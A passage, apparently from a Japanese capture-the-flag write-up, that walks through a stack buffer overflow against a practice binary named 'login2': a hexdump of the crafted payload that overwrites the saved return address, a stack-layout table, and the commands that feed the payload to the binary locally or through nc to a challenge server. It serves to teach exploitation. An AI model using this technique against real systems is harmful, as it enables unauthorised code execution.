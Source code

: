 ### スタックバッファオーバーフロー
バイナリエディタを使って、以下のファイルを作成する。
```
clpwn@CLPWN:~$ hexdump -Cv attack.bin
00000000  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
00000010  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
00000020  61 61 61 61 61 61 61 61  52 13 40 00 00 00 00 00  |aaaaaaaaR.@.....|
00000030
```
main関数実行時のスタックの構造が以下の通りであったので、password、id、古いrdpの値は適当な値で埋め、main関数から__libc_start_main関数へのアドレスが保存されているアドレスに、処理を飛ばしたいアドレスを入れる。リトルエンディアンに注意する。

|アドレス|サイズ|内容|
|:---|:---|:---|
|rdp-0x40|0x20|password|
|rdp-0x20|0x20|id|
|rdp|0x08|古いrdpの値|
|rdp+0x8|0x08|main関数から__libc_start_main関数へのアドレス|
  
作成したattack.binを入力として、login2を実行してみる。  
```
clpwn@CLPWN:~$ cat attack.bin | ./login2
Failed to read flag.txt
```
今回は手元の環境で実行し、flag.txtファイルは存在しないためエラーが出力されたが、flag.txtを読み取る処理は実行されているため、攻撃は成功している。  
実際のCTFなどでは、```cat attack.bin | nc localhost 10002```などとして、入力を問題サーバーに送ることでflagを得ることができる。
